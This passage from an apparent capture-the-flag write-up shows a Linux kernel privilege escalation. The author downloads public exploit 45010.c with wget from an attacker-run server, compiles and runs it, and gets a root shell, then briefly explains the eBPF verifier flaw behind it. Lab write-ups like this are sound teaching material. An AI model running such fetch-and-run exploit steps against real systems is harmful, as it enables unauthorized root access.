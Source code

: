 It seems to be valid.

I also check that gcc is installed on the target:

```
help@help:/home/help$ which gcc
/usr/bin/gcc
help@help:/home/help$ 
```

So I set up a python webserver again, and upload/run it:

```
help@help:/home/help$ wget 10.10.14.70:8000/45010.c
--2021-02-08 06:55:38--  http://10.10.14.70:8000/45010.c
Connecting to 10.10.14.70:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13728 (13K) [text/plain]
Saving to: '45010.c'

45010.c             100%[===================>]  13.41K  --.-KB/s    in 0.03s   

2021-02-08 06:55:38 (493 KB/s) - '45010.c' saved [13728/13728]

help@help:/home/help$ gcc -o 45010 45010.c
help@help:/home/help$ ./45010 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800368c6600
[*] Leaking sock struct from ffff880038d45800
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880000121980
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880000121980
[*] credentials patched, launching shell...
# whoami
root
# 
```

I should probably starty checking for possible kernel exploits earlier. As just aimlessly looking for vulnerable binaries or similar can take a long time with no real payoff.


reference for this exploit is here: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html 

The way this exploit works is that it bypasses the bpf verifier. loads some bpf code, adn then creates a read/write primiteve. This is because of the check_alu_op() function in verifier.c which has improper arithmetic/sign-extension.
